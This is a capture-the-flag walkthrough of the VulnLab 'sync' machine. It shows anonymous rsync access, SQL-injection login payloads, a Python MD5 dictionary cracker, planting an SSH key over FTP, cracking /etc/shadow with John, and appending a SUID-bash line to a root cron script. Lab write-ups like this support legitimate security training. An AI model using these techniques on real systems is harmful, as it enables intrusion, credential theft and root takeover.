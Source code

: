 ```yaml
---
layout: post
title:  "VulnLab | sync"
description: "walkthrough of sync machine, an easy rated box from VulnLab"
date: "2024-11-15"
pin: true
image:
  path: ../assets/img/ctf/vulnlab/sync/sync1.png
  alt: "sync.vl"
category: "VulnLab"
tags: ["Linux", "rsync", "linux password cracking" ,"scheduled task"]
---
```


## Introduction
------------------------------------------------------------------------------------------
[baby](https://www.vulnlab.com/machines)

------------------------------------------------------------------------------------------


## Enumeration

### All Open Ports
```bash
rustscan -a 10.10.109.129
```
![rustscan](./assets/img/ctf/vulnlab/sync/sync2.png)

### Services Scanning
```bash
nmap -p21,22,80,873 -sC -sV -v -oN sync.full 10.10.109.129
```
### Hostname
```bash
echo '10.10.109.129  sync.vl'  >> /etc/hosts
```

## Foothold

### Port 80
![web](./assets/img/ctf/vulnlab/sync/sync3.png)
![ffuf](./assets/img/ctf/vulnlab/sync/sync4.png)

### Port 873
```bash
rsync sync.vl::
rsync -av --list-only  rsync://sync.vl/httpd 
```
![rsync](./assets/img/ctf/vulnlab/sync/sync5.png)

```bash
rsync -av rsync://sync.vl/httpd ./rsyn_shared
```
![rsync](./assets/img/ctf/vulnlab/sync/sync6.png)

```sql
sqlite3 site.db
select * from users;
```
![rsync](./assets/img/ctf/vulnlab/sync/sync7.png)
```php
$username = $_POST['username'];
$password = $_POST['password'];

$hash = md5("$secure|$username|$password");
$db = new SQLite3('../db/site.db');
$result = $db->query("SELECT * FROM users WHERE username = '$username' AND password= '$hash'");

$row = $result->fetchArray(SQLITE3_ASSOC);
```

```text
admin' or 1=1-- -
triss' or 1=1-- -
```
![rsync](./assets/img/ctf/vulnlab/sync/sync8.png)
```python
import hashlib

secure = "6c4972f3717a5e881e282************"
username = "triss"
hash_to_crack = "a0de4d7f81676c3ea**********"
known_string = f"{secure}|{username}|"

def generate_md5_hash(password):
    full_string = known_string + password
    return hashlib.md5(full_string.encode()).hexdigest()
    
def dictionary_attack(wordlist):
    with open(wordlist, 'r') as file:
        for line in file:
            password = line.strip()
            if generate_md5_hash(password) == hash_to_crack:
                print(f"Password found: {password}")
                return password
    print("Password not found in wordlist.")
    return None
```
![triss password](./assets/img/ctf/vulnlab/sync/sync9.png)

### Port 21
```bash
ftp sync.vl
```
![ftp](./assets/img/ctf/vulnlab/sync/sync10.png)

```sh
ssh-keygen
cp id_rda.pub authorized_keys
mkdir .ssh
cd .ssh
put authorized_keys
```
![authorized_keys](./assets/img/ctf/vulnlab/sync/sync11.png)

### Port 22
```bash
chmod 600 id_rsa
ssh -i id_rsa triss@sync.vl
```
![ssh](./assets/img/ctf/vulnlab/sync/sync12.png)


## Privilege Escalation
```text
> linpeas output

/usr/local/bin/backup.sh 
/backup

> pspy64 output
```
![ssh](./assets/img/ctf/vulnlab/sync/sync13.png)

```bash
> /usr/local/bin/backup.sh content

#!/bin/bash
mkdir -p /tmp/backup
cp -r /opt/httpd /tmp/backup
cp /etc/passwd /tmp/backup
cp /etc/shadow /tmp/backup
cp /etc/rsyncd.conf /tmp/backup
zip -r /backup/$(date +%s).zip /tmp/backup
rm -rf /tmp/backup
```

```bash
unzip -d data data.zip
cp data/tmp/backup/passwd passwd.txt
cp data/tmp/backup/shadow shadow.txt
unshadow passwd.txt shadow.txt  > unshadowed.txt
```
![data.zip](./assets/img/ctf/vulnlab/sync/sync14.png)

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
john --format=crypt --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```
![jtr](./assets/img/ctf/vulnlab/sync/sync15.png)

```bash
su sa
id
```
![sa](./assets/img/ctf/vulnlab/sync/sync16.png)

```bash
ls -la /usr/local/bin/backup.sh 
echo 'chmod +s /bin/bash'  >> /usr/local/bin/backup.sh 
```
![backup.sh](./assets/img/ctf/vulnlab/sync/sync17.png)
```sh
ls -la /bin/bash
/bin/bash -p
```
![root](./assets/img/ctf/vulnlab/sync/sync17.png)


## Kill Chain Summary
1. rsync anonymous access.
2. reading the registration code understand the hashing mechanism and crack triss password.
3. using triss creds access the ftp server.
4. tris have write permission abuse this and add a public key to `.ssh/authorized_keys`.
5. connect to the box trought ssh as triss.
6. crack linux password (sa and jennifer) found in `/backup/date.zip`.
7. abuse the root task running `/usr/local/bin/backup.sh` since we as `sa` has write permission on `/usr/local/bin/backup.sh`.
8. NB: Someone could using ``hydra` brute force `sa` password since it's very weak and then skip step 1 to 5.


## References
[rsync](https://hackviser.com/tactics/pentesting/services/rsync)<br>
[jtr shadow cracking](https://www.mohammedalani.com/tutorials/cracking-a-shadow-password-using-john-the-ripper/)
